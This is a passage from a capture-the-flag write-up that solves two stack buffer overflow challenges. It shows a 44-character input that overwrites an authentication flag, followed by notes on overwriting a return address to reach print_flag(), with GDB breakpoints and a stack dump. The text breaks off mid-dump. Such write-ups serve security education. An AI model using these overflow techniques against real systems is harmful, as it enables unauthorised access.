 When viewing the disassembly, I could tell that the `authenticated` variable was located at $rbp-0x4 because it was used in the `test` instruction to decide whether or not to jump to `print_flag()`. Additionally, I was able to deduct that the `username` char array was at $rbp-0x30. Taking their difference, I find that I need to provide a string 44 characters in length to override the `authenticated` integer:

~~~console
$ nc ctf.cs.technion.ac.il 4068
Hello and thank you for using Flag Distibuter v1.0 🚩🚩🚩
To receive the flag, please enter your username and password
Username: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Password: doesn't matter
Autenticating...
Authenticated, here's the flag: flag{protect_your_boundaries}
~~~

Flag: flag{protect_your_boundaries}

## Buffering 1

Category: Binary Exploitation

Points: 100

Compared to the `flag_server` challenge, this problem placed the `read()` actions in a separate function called `get_credentials`. In this case, there's no way for us to override the `authenticated` integer, but we can change the execution flow by overriding the return address of `get_credentials()` to get us into `print_flag()`. 

This could be achieved simply by padding the data in `username` until the return address, at which we replace the current value with the address of `print_flag` (which is found with `p print_flag`).

The following are my notes from the problem:

~~~text
Start of main(): 0x4011d6

Vulnerability: read() gets up to 64 characters for a 32-bytes char array `username` in function `get_credentials`

Instruction to `print_flag()`:
	call   0x401381 <print_flag>
	
Location of `username`: rbp-0x20

First breakpoint - First `read` instruction:
break *0x0000000000401343

Second breakpoint - Instruction after first `read`:
break *0x0000000000401348

Third breakpoint - `leave` instruction for `get_credentials()`:
break *0x000000000040137f

Stack at first breakpoint:
gef➤  x/100wx $rbp-0x20 
0x7fffffffdd80:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffdd90:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffdda0:	0xffffddc0	0x00007fff	0x00401207	0x00000000
0x7fffffffddb0:	0xffffdeb0	0x00000000	0x00000000	0x00000000
0x7fffffffddc0:	0x00000000	0x00000000	0xf7de20b3	0x00007fff
0x7fffffffddd0:	0x00000071	0x00000000	0xffffdeb8	0x00007fff
0x7fffffffdde0:	0xf7fa3618	0x00000001	0x004011d6	0x00000000
0x7fffffffddf0:	0x004013d0	0x00000000	0xb97f9d8e	0xc9c7ad95

Stack at second breakpoint after entering some characters:
gef➤  x/100wx $rbp-0x20 
~~~